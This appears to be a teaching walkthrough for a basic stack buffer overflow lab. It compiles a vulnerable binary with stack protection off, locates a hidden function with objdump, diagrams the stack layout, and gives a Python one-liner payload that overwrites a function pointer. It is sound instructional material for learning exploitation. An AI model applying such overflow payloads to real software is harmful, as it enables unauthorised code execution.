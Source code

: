 #### Basic exploitation example walkthrough

`$ gcc -m32 -fno-stack-protector -z execstack -exp101.c -o exp101`

1.  In this example, we attempt to execute an unused functon

    1.  Assuming we have identified a vanilla buffer overflow vulnerability
    
    2.  Identify the address of the `hidden` function.
    
        `$ objdump -D -M intel exp101 | grep -e "hidden"`
        
        The dump file is provided [here](exp101.dump)
        
    3.   We wish to analyse the stack such that we know where our payload goes!
    
        ```
        Expected memory structure
        |-----------------------|<--------- Low addresses
        |                       |
        |                       |
        |                       |
        |                       |
        |-----------------------|<--------- Frame pointer (Top of stack)
        |   buffer[0]='A'=0x41  | 1 byte
        |-----------------------|
        |       buffer[1]       |   "
        |-----------------------|
        |       buffer[2]       |   "
        |-----------------------|
        |       buffer[3]       |   "
        |-----------------------|
        |       buffer[4]       |   "
        |-----------------------|
        |           ...         |   "
        |-----------------------|
        |      buffer[31]       |   "
        |-----------------------|
        |        f = NULL       | 4 bytes 
        |-----------------------|
        |  Saved Frame pointer  |   "
        |-----------------------|
        |     return address    |   "  <--- Address to return to in main
        |-----------------------|
        |           a           |   "
        |-----------------------|
        |           b           |   "
        |-----------------------|
        |           c           |   "
        |-----------------------|
        |           d           |   "
        |-----------------------|<--------- High addresses
        ```
        
    4.  From the model, we require `32 bytes` of data to fill the buffer and an extra `4 bytes` to overwrite `f`.
    
        +   The extra `4 bytes` to overwrite `NULL` in `f` will be the address of `hidden`. In my case, it is `0x0804843b`
    
            `$ python -c "print '\x41'*32 + '\x3b\x84\x04\x08'"`
            
            The weird address byte order relates to endianess.
            
            ![alt text](soln.png)
